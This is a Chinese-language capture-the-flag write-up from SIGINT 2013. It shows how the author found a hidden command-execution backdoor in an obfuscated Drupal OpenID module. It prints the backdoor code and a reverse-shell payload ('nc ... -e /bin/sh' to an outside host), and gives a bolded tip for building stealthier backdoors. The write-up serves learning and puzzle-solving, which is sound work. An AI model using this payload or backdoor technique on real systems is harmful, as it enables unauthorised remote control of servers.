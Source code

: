```yaml
---
layout: post
title: "SIGINT 2013 cloud200 bloat"
description: "SIGINT 2013 cloud200 bloat hunt for backdoor"
category: "writeup"
tags: ["SIGINT 2013", "web", "writeup"]
---
```

{% include JB/setup %}
#SIGINT2013 cloud200 bloat

Description

    My friend set up this site for me. I don't trust him.
    He installed a backdoor for sure. Can you find it?
    He just wrote me, what this system is using.
    Somehow it looks diff-erent o_O:
	http://a0.ctf.sigint.ccc.de/

[cdd-7.20.tar_0.gz](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/cdd-7.20.tar_0.gz)

[source_code.tar.bz2](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/source_code.tar.bz2)

这道题比赛的时候只有一个队伍做出来。虽然只有200分，但过程比较复杂。
我本来预期花一两个小时就能解决这个问题，结果却耗费了四个小时。

首先也是最关键的问题就是如何找到后门。
这个网站使用的是开源系统drupal 7.20，还附带了一些插件。但问题并不是直接diff那么简单。
官方的源码附有详细的注释，但修改版中将所有注释全部删掉了，还把代码风格从K&R风格改成了一种很混乱的样子，甚至将所有的变量名替换成了奇奇怪怪的东西。

手工查找人眼识别几乎是不可行的。必须想其它办法。

比赛的时候卡在其他题上面了，没有时间仔细看这道题。事后才想起来可以写一个文本处理器，把php文件全部“格式化”一遍：去掉注释+统一格式+统一变量命名。

[PHP_filter.cpp](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/filter.cpp)

处理注释是最麻烦的一步，要判断引号和各种注释符，最终版本的代码也还有瑕疵。
因为只需要比对出文件的不同之处，所以不需要维护代码风格和变量名。为了统一，我把所有可能换行的`{};,:()`全都强行换行，又将所有变量名指定成了$000。

用这个非常挫的文本处理器半自动操作，效率已经比人眼识别提升很多，而且出错率降低很多。
但是将所有`.php`文件对比之后并没有什么收获。
再去查看源码中的文件，发现`.php`的文件其实并不多。很多插件都是以`.inc\.module`这样的后缀结尾的。

再扫描一遍`.inc`后缀的文件，果然发现有一个文件`./bloat/modules/openid/openid.inc`略有不同。

    10 define('OPENID_DH_DEFAULT_GEN', '86');
    
而原版中的openid是

```php
<?php
/**
 * Diffie-Hellman generator; used for Diffie-Hellman key exchange computations.
 */
define('OPENID_DH_DEFAULT_GEN', '2');
```
    
这是跟用户认证有关的一个常量。修改这种值也许会造成认证系统的一些缺陷。
继续看代码，我有了更大的收获。

在`./bloat/modules/openid/openid.module`中代码逻辑与原版有明显的不同。

```php
<?php
function openid_login_validate($quench, &$tickers)
{
	$return_to = $tickers['values']['openid.return_to'];
...
	openid_begin($tickers['values']['openid_identifier'], $return_to, $tickers['values']);
... 
function openid_begin($imaginably, $overlay = '', $termination = array())
...
	if(strpos($imaginably, '@'))
	{
		list($user, $host) = explode('@', $imaginably, 2);
	}
	else
    {
    $user = false;
    $host = false;
    }
```
    
`list($user, $host) = explode('@', $imaginably, 2);`中`$imaginably`正是用户提交的认证用户名。
再来看看这些变量做了什么。

```php
<?php
$user_enc = _openid_dh_long_to_base64($user * OPENID_DH_DEFAULT_GEN);
$service['uri'] = drupal_map_assoc(array($host), $user_enc);
openid_redirect($service['uri'], $ramparts);
```
    
这里用到了修改过的常量`OPENID_DH_DEFAULT_GEN`。
drupal_map_assoc()返回的是数组，所以在redirect过程中会被强转成字符串"Array"，最后在跳转的时候会出错。
而这个[drupal\_map\_assoc()](https://api.drupal.org/api/drupal/includes%21common.inc/function/drupal_map_assoc/7)则暗藏玄机。
根据官方文档，drupal_map_assoc()会把第一个参数$array中的每个参数依次传入第二个参数$callable执行并返回一个数组。
这里藏着一个命令执行后门啊。。。。
只要`is_callable($user_enc)`就能直接执行`$user_enc($host)`。
而`$user_enc`是从`$user * OPENID_DH_DEFAULT_GEN`解出来的。
因为`OPENID_DH_DEFAULT_GEN`的限制，所以这个`$user_enc`必须是按照base64解成整形之后能整除86（中间还有一些过程）。

现在要做的就是找一个合适的函数，恰好能满足这个条件了。

```bash
slipper@NULL:~/CTF/SigintCTF2013/cloud/bloat/bloat/modules/openid$ php -a
Interactive shell

php > include './openid.inc';
php > var_dump(is_callable('system'));
bool(true)
php > var_dump(is_callable('systeM'));
bool(true)
php > echo _openid_dh_base64_to_long('system')/OPENID_DH_DEFAULT_GEN ."\n";
34952922.72093
php > echo _openid_dh_base64_to_long('System')/OPENID_DH_DEFAULT_GEN ."\n";
14664196.395349
php > echo _openid_dh_base64_to_long('SYstem')/OPENID_DH_DEFAULT_GEN ."\n";
14347185.046512
php > echo _openid_dh_base64_to_long('eval')/OPENID_DH_DEFAULT_GEN ."\n";
93703.872093023
php > echo _openid_dh_base64_to_long('exec')/OPENID_DH_DEFAULT_GEN ."\n";
93802
```

因为这里的is_callable是不区分大小写的，本来我还以为后门作者刻意选择了大小写混用的函数名，本来差点要写程序暴搜的。还好偶然发现exec正好符合要求。^_^

**如果以后要用这种方法做后门，记得一个有大因子的大小写混用的函数名哦。**

接下来就是命令执行了。
可是用`93802@echo a > a`结果并没有生成文件a。似乎对网站的目录木有写权限。
如果要获取flag，必须要有传递信息的途径。
唯一能想到的方法就只有反连了。
幸运的是服务起的nc有-e选项，正好可以交互，不然还得一次一次地执行命令。

用`93802@nc x.x.x.x 8080 -e /bin/sh`反弹，本地用`nc -l 8080`监听。

```bash
pwd
/var/www
ls -la ./
total 7904
drwxr-xr-x  9 root root    4096 Jul  5 01:23 .
drwxr-xr-x 14 root root    4096 Jul  5 01:53 ..
-rw-r--r--  1 root root   75028 Mar  7 17:26 CHANGELOG.txt
-rw-r--r--  1 root root    1481 Mar  7 17:26 COPYRIGHT.txt
...
-rw-r--r--  1 root root      34 Jul  5 01:01 ___F_L_A_G___
...
cat ___F_L_A_G___
not here, see /flag on filesystem
cat /flag
SIGINT_d4b0844c
```

看来果然是木有写权限～～
